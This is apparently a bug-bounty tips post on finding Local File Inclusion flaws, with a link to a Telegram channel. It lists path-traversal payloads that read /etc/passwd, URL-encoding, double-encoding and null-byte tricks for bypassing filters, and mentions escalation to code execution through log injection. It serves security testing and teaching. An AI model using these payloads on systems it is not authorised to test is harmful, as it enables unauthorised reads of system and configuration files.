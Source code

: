 ### 🔍 Real-World LFI Hunting Tips (Local File Inclusion)

> LFI is one of those classic bugs that keeps showing up — if you know where to look. Here’s how to hunt them based on real-world findings:


### 1️⃣ GET Path Injection

Try this in URL params:
```
example.com/page=///../../../../etc/passwd
```
💡 Tip: Start with triple slashes /// to bypass filters.

Use Burp Suite or ffuf to fuzz with payloads like:
```
../etc/passwd
....//....//etc/passwd
%2e%2e%2f%2e%2e%2fetc%2fpasswd
```
### 2️⃣ POST LFIs

Some LFI bugs hide in POST requests. Look for parameters like:
```
POST /router.jsp  
page=../etc/passwd
```
💡 Tip: Use Burp Repeater to modify POST body and test LFI payloads.

### 3️⃣ Hidden Params (The Real Gold)

Many LFI bugs come from undocumented or hidden parameters.

✅ Tools to find them : ParamSpider , Arjun

JS file analysis (look for .js files that reference “file=”, “path=”, etc.)

🔓 Bypass Tricks

🌀 Encoding payloads:
```
%2e%2e%2f = ../
%00 null-byte (older PHP apps)
URL double encoding: %252e%252e%252f
```
Use these to bypass simple filters or WAFs.

#### ⚠️ Stay Ethical

LFI can lead to:
⚡️Arbitrary file read
⚡️RCE via log injection or /proc/self/environ
⚡️Sensitive config exposure
⚠️Only test on targets you're authorized to assess!

⸻

💥 Stay sharp, automate smart, and always verify paths manually.

📢 Join us for daily hunting tricks and recon scripts → [@cybersecplayground](https://t.me/cybersecplayground)

❤️ Like & Share if you found this helpful
#bugbounty #lfi #infosec #recon #exploit #pentest #osint
